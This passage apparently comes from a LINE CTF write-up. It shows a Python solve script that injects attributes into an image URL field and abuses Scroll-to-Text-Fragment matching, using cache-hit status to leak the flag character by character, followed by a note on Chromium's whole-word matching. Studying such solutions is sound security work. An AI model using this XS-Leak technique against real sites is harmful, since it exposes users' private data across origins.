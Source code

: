 ``` py
    "title": str(time.time()) + "w"*5000,
    "img_url": f"/static/image/111 srcset={url} loading=lazy "
  }, headers={
    "Cookie": cookie
  }, allow_redirects=False)
  return resp.headers["X-ImageId"]

def share(url, keyword):
  resp = requests.post(base_url + '/share', json={
    "path": "image/" + url + "#:~:text=" + keyword,
  }, headers={
    "Cookie": cookie
  })
  return resp.text

def check_cached(img_url):
  resp = requests.get(base_url + img_url, headers={
    "Cookie": cookie
  }, allow_redirects=False)
  return resp.headers["X-Cache-Status"]

def run():
  known = "LINECTF{"
  while True:
    for char in "0123456789abcdef":
      print("trying:" + known+char)

      resp = upload_image()
      img_url = resp["img_url"]
      print("img url:" + img_url)

      img_id = create_post(img_url)
      print("img id:" + img_id)

      share_res = share(img_id, known + char)
      print("resp:" + share_res)

      sleep(3)
      cache_resp = check_cached(img_url)
      print("cached:" + cache_resp)
      if cache_resp == "HIT":
        known += char + "/"
        print(known)
        break


run()
```

In addition, maple3142's writeup solved a confusion for me, which is why the flag needs those `/`? It turns out that Chromium, in order to avoid this kind of xsleak, must match the entire word when judging SSTF in order to scroll.
